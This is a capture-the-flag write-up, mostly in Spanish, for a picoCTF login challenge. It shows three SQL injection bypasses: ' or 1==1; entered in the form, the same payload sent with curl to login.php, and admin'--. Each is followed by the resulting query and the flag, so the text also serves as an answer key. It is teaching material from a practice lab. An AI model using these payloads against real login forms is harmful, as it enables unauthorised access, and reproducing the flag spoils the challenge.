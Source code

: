 ### Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

### Solución
Es necesario poner una inyección para poder logearse de manera correcta, la inyección es la siguiente:

```
' or 1==1;
```

Y al intentar logearse ahora si nos permite y muestra lo siguiente:
```
username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
```

Mandando la bandera:
Your flag is: 
picoCTF{s0m3_SQL_fb3fe2ad}

### Solución 2
Cuando el formulario se procesa es enviado a login.php, por lo que hay que cambiar la url se hace mediante un método post -d y se envían los datos de este.
Usando la consola:
```
Sebas115-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username-admin&password=password&debug=1"

<pre>username: 
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
</pre><h1>Login failed.</h1>Sebas115-picoctf@webshell:~$ 
```

Falta agregar la inyección para que se muestre la flag:
```
Sebas115-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username-admin&password=' or 1==1;&debug=1"
<pre>username: 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```

picoCTF{s0m3_SQL_fb3fe2ad}

### Solución 3
Es posible sacar la bandera con otra inyección:

```
admin'--
```

Mostrando:
```
# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

### Notas adicionales


### Referencias

